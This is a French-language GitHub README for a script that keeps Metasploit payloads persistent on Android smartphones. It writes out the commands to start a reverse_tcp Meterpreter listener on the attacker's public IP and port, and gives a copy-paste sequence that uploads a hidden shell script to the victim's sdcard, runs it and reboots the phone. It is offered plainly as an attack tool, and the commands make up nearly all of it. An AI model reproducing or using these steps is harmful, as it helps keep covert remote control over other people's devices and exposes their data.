# MSF PERSISTANCE ANDROID

![msf](https://raw.githubusercontent.com/oda-alexandre/msf-persistance-android/master/logo-msf.png) ![android](https://raw.githubusercontent.com/oda-alexandre/msf-persistance-android/master/logo-android.png)


## INDEX

- [Introduction](#INTRODUCTION)
- [Prerequis](#PREREQUIS)
- [Utilisation](#UTILISATION)
- [License](#LICENSE)


## INTRODUCTION

Ce script permet la persistance des payload sur smartphone Android via Metasploit.


## PREREQUIS

utiliser [Metasploit](https://www.metasploit.com/)


## UTILISATION

1 - Mettez le script msf-persistance-android.sh dans votre dossier personnel et renommez le .sh


2 - Ouvrir MSF

```
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set lhost VOTRE IP PUBLIC
set lport LE PORT DE VOTRE CHOIX
exploit
```


3 - Copier/Coller dans un terminal en console MSF avec une session android/meterpreter/reverse_tcp

```
cd /
cd sdcard
upload ~/.sh
shell
cd /
cd sdcard
sh .sh
reboot
exit
```


## LICENSE

[![GPLv3+](http://gplv3.fsf.org/gplv3-127x51.png)](https://github.com/oda-alexandre/msf-persistance-android/blob/master/LICENSE)
